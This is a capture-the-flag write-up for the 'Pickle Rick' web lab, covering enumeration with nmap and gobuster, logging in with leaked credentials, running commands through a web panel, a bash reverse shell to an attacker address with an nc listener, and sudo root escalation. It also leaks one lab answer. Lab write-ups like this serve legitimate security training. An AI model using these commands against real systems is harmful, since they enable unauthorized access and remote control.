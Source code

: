 # Pickle Rick
### Difficulty: Easy

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: MACHINE_IP

## Answer the questions below
+ What is the first ingredient that Rick needs? `**. ******* ****`
+ What is the second ingredient in Rick’s potion? `* ***** ****`
+ What is the last and final ingredient? `***** *****`

### 1. Information Gathering
```bash
nmap -sC -sV 10.201.23.118 -oN nmap_picklerock

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 19:08 WIB
Nmap scan report for 10.201.23.118
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5e:dd:58:36:ec:40:52:d7:27:01:33:a6:81:9c:84:7c (RSA)
|   256 9c:51:59:79:1e:92:f2:02:5f:02:ec:0e:5f:8f:f3:64 (ECDSA)
|_  256 9c:19:00:53:56:aa:c9:35:a3:ce:1f:15:32:63:28:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.96 seconds
```
Inspect web found
```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
#### Gobuster Directory Enumeration
```bash
gobuster dir -u http://10.201.23.118 \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt \
-t 50 -x php,txt,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.23.118
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/assets               (Status: 301) [Size: 315] [--> http://10.201.23.118/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```
Checking `robots.txt` return `Wubbalubbadubdub`

### 2. Initial Web Exploitation
After that, we go to the `http://10.201.23.118/portal.php` page and enter the username and the return result `R1ckRul3s` `Wubbalubbadubdub` later we will enter the page with the command panel form, there we `ls -la`

```bash

total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

Next, in the command panel, we enter `grep " " Sup3rS3cretPickl3Ingred.txt`
```bash
**. ******* ****
```

Using command `grep " " *.txt`
```bash
Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair
clue.txt:Look around the file system for the other ingredient.
```
### 3. Discover Second Ingredient
`ls -la /home`
```bash
total 16
drwxr-xr-x  4 root   root   4096 Feb 10  2019 .
drwxr-xr-x 23 root   root   4096 Sep 11 12:07 ..
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  5 ubuntu ubuntu 4096 Jul 11  2024 ubuntu
```
`ls -la /home/rick`
```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```
#### Payload executed in portal command panel:
Using Bash RevShell `/bin/bash -c "bash -i >& /dev/tcp/10.9.1.226/1337 0>&1"`

#### Listener on attack box:

In terminal bash `nc -lvnp 1337`
```bash
listening on [any] 1337 ...
connect to [10.9.1.226] from (UNKNOWN) [10.201.23.118] 40632
bash: cannot set terminal process group (1016): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-201-23-118:/var/www/html$ 
```
#### Connected reverse shell:
```bash
www-data@ip-10-201-23-118:/var/www/html$ cat /home/rick/second\ ingredients
x`
cat /home/rick/second\ ingredients
* ***** ****
```
## 4. Privilege Escalation

```bash
www-data@ip-10-201-23-118:/var/www/html$ sudo su
root@ip-10-201-23-118:/var/www/html# 
root@ip-10-201-23-118:/var/www/html# whoami
root
```
## 5. Final Ingredient
`Letsgoooo searching root!!`
```bash
root@ip-10-201-23-118:/var/www/html# ls /root
3rd.txt  snap
root@ip-10-201-23-118:/var/www/html# cat /root/3rd.txt
3rd ingredients: ***** *****
root@ip-10-201-23-118:/var/www/html# 

```



